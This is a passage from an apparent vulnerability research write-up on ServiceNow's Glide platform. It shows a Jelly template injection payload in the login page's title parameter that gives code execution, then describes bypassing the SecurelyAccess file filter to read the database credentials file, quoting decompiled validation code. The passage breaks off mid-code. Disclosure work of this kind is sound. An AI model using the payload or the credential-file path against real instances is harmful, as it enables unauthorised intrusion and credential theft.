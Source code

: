 Finally, we use this payload:

    
    
    /login.do?jvar_page_title=<style><j:jelly xmlns:j="jelly" xmlns:g='glide'><g:evaluate>gs.addErrorMessage(7*7);</g:evaluate></j:jelly></style>

And we get code execution!

### Bug 3: Filesystem Filter Bypass

Javascript execution gives us significant access, but we weren't satisfied
with this. While script execution gets us significant access, the platform
enforces additional access controls on certain tables. This might mean that we
could not read everything sensitive in a hardened instance. Ideally, we would
like to read the credential file containing the database connection string and
connect to the DB directly. In the cloud, Glide stores the database
credentials under `/glide/nodes/[[node]]/conf/glide.db.properties`, so we
started to look at a way to access this.

One helper class that immediately stood out was `SecurelyAccess`. This class,
as its name implies, is designed to allow secure read access to certain files
on the filesystem only. The idea is you can write something like `new
SecurelyAccess("some/file/here").getBufferedReader()` to get a file handle to
an allowed file. The list of checks is extensive:

    
    
    public static boolean isValidFilePath(String fileName, boolean isDownloadFile, boolean existenceCheck) {
        // existenceCheck and isDownload file are both false in our case
        block11: {
            if (!SecurelyAccess.isAcceptableCmdArgOrFileName(fileName)) {
                Log.securityWarn((String)String.format(LogFormatEnum.NotAcceptableCmdArgOrFileName.getFormat(), fileName));
                return false;
            }
            if (fIgnoreFilePathRestrictions.isTrue()) {
                return true;
            }
            if (SecurelyAccess.isMaintOrZboot()) {
                return true;
            }
            try {
                if (fileName.contains("../")) {
                    Log.securityWarn((String)String.format(LogFormatEnum.NotAllowParentDirectoryInPath.getFormat(), fileName));
                    return false;
                }
                File proposedFile = new File(fileName);
                String filePath = proposedFile.getCanonicalPath().toLowerCase();
                if (existenceCheck && SecurelyAccess.isPathInList(filePath, FILEPATH_ALLOWLIST)) {
                    return true;
                }
                if (!existenceCheck && proposedFile.exists() && proposedFile.isDirectory()) {
                    Log.securityWarn((String)String.format(LogFormatEnum.NotAllowDirectoryPath.getFormat(), fileName));
                    return false;
                }
                String tempDir = SysFileUtil.getTempDir().getCanonicalPath().toLowerCase();
                if (filePath.startsWith(tempDir)) {
                    return true;
                }
                if (isDownloadFile) {
                    String customerUploadsDir = SysFileUtil.getCustomerUpload().getCanonicalPath().toLowerCase();
                    String tomcatLogsDir = SysFileUtil.getTomcatLogsDirectory().getCanonicalPath().toLowerCase();
                    if (filePath.startsWith(tomcatLogsDir) || filePath.startsWith(customerUploadsDir)) {
                        return true;